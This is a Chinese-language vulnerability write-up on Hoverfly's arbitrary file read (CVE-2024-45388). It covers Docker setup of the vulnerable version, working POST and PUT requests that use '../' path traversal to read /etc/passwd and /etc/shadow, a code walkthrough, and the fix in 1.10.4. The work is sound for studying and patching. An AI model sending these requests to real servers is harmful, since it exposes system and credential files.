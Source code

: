 #  Hoverfly 任意文件读取漏洞（CVE-2024-45388）   
 蚁景网安   2025-02-17 08:30  
  
## 漏洞简介  
  
Hoverfly 是一个为开发人员和测试人员提供的轻量级服务虚拟化/API模拟/API模拟工具。其 /api/v2/simulation 的 POST 处理程序允许用户从用户指定的文件内容中创建新的模拟视图。然而，这一功能可能被攻击者利用来读取 Hoverfly 服务器上的任意文件。尽管代码禁止指定绝对路径，但攻击者可以通过使用 ../ 段来逃离 hf.Cfg.ResponsesBodyFilesPath 基本路径，从而访问任何任意文件。  
## 环境搭建  
  
我们还是利用 docker 来搭建环境  
  
https://hub.docker.com/r/spectolabs/hoverfly/tags  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZaibicZbH37cmxhebroNxNvVamfsMZonzXicLnrc5rSLC02xBZAsYZr9rw/640?wx_fmt=other&from=appmsg "null")  
```
docker pull spectolabs/hoverfly:v1.10.2
docker run -d -p 8888:8888 -p 8500:8500 spectolabs/hoverfly:v1.10.2   
```  
## 漏洞复现  
  
构造数据包  
```
POST /api/v2/simulation HTTP/1.1
Host:127.0.0.1:8888
Accept: application/json, text/plain,*/*
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/85.0.4183.83Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8888/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:126
Content-Type: application/x-www-form-urlencoded

{"data":{"pairs":[{
"request":{},"response":{
"bodyFile":"../../../../../etc/passwd"}}]},"meta":{"schemaVersion":"v5.2"}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZRV2ZnIfHbH4fVlYVRbQxdJpAKCeNaFficWEPticicFQu98P3Yq1zRb4iaA/640?wx_fmt=other&from=appmsg "null")  
  
```
PUT /api/v2/simulation HTTP/1.1
Host:127.0.0.1:8888
Accept: application/json, text/plain,*/*
User-Agent:Mozilla/5.0(Windows NT 10.0;Win64; x64)AppleWebKit/537.36(KHTML, like Gecko)Chrome/85.0.4183.83Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8888/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length:126
Content-Type: application/x-www-form-urlencoded

{"data":{"pairs":[{
"request":{},"response":{
"bodyFile":"../../../../../etc/shadow"}}]},"meta":{"schemaVersion":"v5.2"}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZoO1JyvDl6FOKzwrNKASEQEIAu8VyegK8ef9PibiblwE73zpDmtuJ4bfA/640?wx_fmt=other&from=appmsg "null")  
## 漏洞分析  
  
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#RegisterRoutes  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZCZG8kI4zqtfV36jjzawzzVBtTfPxPseCqM2JTx1DbtwSGUecNpOYmw/640?wx_fmt=other&from=appmsg "null")  
  
定义了 SimulationHandler 的路由注册方法，路由的每个 HTTP 方法（如 GET、PUT、POST、DELETE 等）都有一个对应的处理函数 (this.Get、this.Put、this.Post、this.Delete、this.Options、this.GetSchema)。这些函数处理实际的业务逻辑。  
- • GET /api/v2/simulation: 处理获取模拟数据。  
  
- • PUT /api/v2/simulation: 处理更新模拟数据。  
  
- • POST /api/v2/simulation: 处理创建新的模拟数据。  
  
- • DELETE /api/v2/simulation: 处理删除模拟数据。  
  
- • OPTIONS /api/v2/simulation: 提供有关 /api/v2/simulation 端点允许的 HTTP 方法的信息。  
  
- • GET /api/v2/simulation/schema: 获取模拟数据的 schema（结构）。  
  
- • OPTIONS /api/v2/simulation/schema: 提供有关 /api/v2/simulation/schema 端点允许的 HTTP 方法的信息。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZQgnia6XCzKXYqC9bDLUO7iaflXSnwAVp6u9ED3KticrCX4HIgDGdYKC6w/640?wx_fmt=other&from=appmsg "null")  
  
POST 和 PUT 方法 仅仅是函数的第三个参数有所不同，所以两种请求方式都可以实现任意文件读取  
  
hoverfly-1.10.2\core\handlers\v2\simulation_handler.go#addSimulation  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZlymv4fprpciaCeON3rmAia6fDFIzrtG9Gx2EvNfUKGB0s9AF36hVgQsQ/640?wx_fmt=other&from=appmsg "null")  
  
第三个参数的不同导致 PUT 方法在获取新的模型内容时，首先删除前一个模拟内容，可以重复读取不同文件内容。POST 仅仅只能读取一次文件内容，无法更新。  
  
hoverfly-1.10.2\core\hoverfly_service.go#PutSimulation  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZqQVR7Kicf5ibzVDh62UdasNGI9ibibictvibsOb3KcxwT6hRXg7mbPopKkJw/640?wx_fmt=other&from=appmsg "null")  
  
hoverfly-1.10.2\core\hoverfly_service.go#putOrReplaceSimulation  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZIThdTRfjKkVN9JhibyTlb5aoHfqfonwdNZBVHGOwibdelI1yEniax7Wyw/640?wx_fmt=other&from=appmsg "null")  
  
hoverfly-1.10.2\core\hoverfly_funcs.go#readResponseBodyFiles  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZVURIw08bQiciaNHfSzATtv8TLt3owz9gBPCtcclLUohUX8XS6tUyafEw/640?wx_fmt=other&from=appmsg "null")  
  
hoverfly-1.10.2\core\hoverfly_funcs.go#readResponseBodyFile  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZ9kp3zMoldKXauticy3q62MSwmibfmibWetJa5NR9Ziavicg6g4BMyAqKzGQ/640?wx_fmt=other&from=appmsg "null")  
  
这里就是漏洞产生的关键原因，对传入的参数 filePath 没有做具体的校验，可以通过 ../ 实现跨越目录的读取文件  
  
我们看到最新版已经对传入的参数进行了处理  
  
hoverfly-1.10.4\core\hoverfly_funcs.go#readResponseBodyFile  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZo4tA2FzymufuxoUXefSwib9pXYAZdRDicCpzy6lwySK2I2dfeOCxE72g/640?wx_fmt=other&from=appmsg "null")  
  
hoverfly-1.10.4\core\util\util.go#ResolveAndValidatePath  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldz2XPeh2AuaOejo1fibxEZyZW1ib64wFV9cW0pm5DM1wtukPv22jP5EvRlD5EmORYtVp3ZmMpZJxBOw/640?wx_fmt=other&from=appmsg "null")  
  
这个 ResolveAndValidatePath 函数用于从一个绝对路径（absBasePath）解析一个相对路径（relativePath），并验证这个相对路径是否合法。具体来说，它确保了相对路径不会尝试向上回溯（使用 ".."），并且解析后的路径仍然在基路径之下。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6iavic0tIJIoZCwKvUYnFFiaibgSm6mrFp1ZjAg4ITRicicuLN88YodIuqtF4DcUs9sruBa0bFLtX59lQQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
学习  
网安实战技能课程，戳  
“阅读原文“  
  
